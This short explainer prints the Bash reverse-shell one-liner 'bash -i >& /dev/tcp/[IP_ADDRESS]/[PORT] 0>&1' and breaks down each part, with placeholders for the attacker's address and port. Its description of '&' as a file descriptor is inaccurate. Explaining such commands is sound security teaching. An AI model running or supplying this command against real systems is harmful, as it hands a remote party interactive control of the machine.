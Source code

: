 ```bash
bash -i >& /dev/tcp/[IP_ADDRESS]/[PORT] 0>&1
``` 

The command is a Bash shell command used to create a reverse TCP connection, often for the purposes of establishing a reverse shell. Let's break down each part of this command:

1. **`bash -i`**: 
   - `bash`: Invokes the Bash shell.
   - `-i`: Stands for "interactive", ensuring that the shell is interactive. This allows for user interaction with the shell, which is crucial for a reverse shell scenario.

2. **`>& /dev/tcp/[IP_ADDRESS]/[PORT]`**:
   - `>`: Redirects the output of the command.
   - `&`: This character is a file descriptor in Bash. When used with `>`, it indicates that both the standard output (STDOUT) and standard error (STDERR) are being redirected.
   - `/dev/tcp/[IP_ADDRESS]/[PORT]`: This is a special file that Bash can interpret. It establishes a TCP connection to the specified IP address and port. Replace `[IP_ADDRESS]` and `[PORT]` with the target IP address and port you want to connect to. This feature is specific to some versions of Bash and may not be available in all installations.

3. **`0>&1`**:
   - File descriptors in Unix-like systems are used to point to input and output sources. `0` is standard input (STDIN), `1` is standard output (STDOUT), and `2` is standard error (STDERR).
   - `0>&1` redirects the standard input to the standard output. This ensures that input from the established TCP connection is sent to the shell, enabling two-way communication.
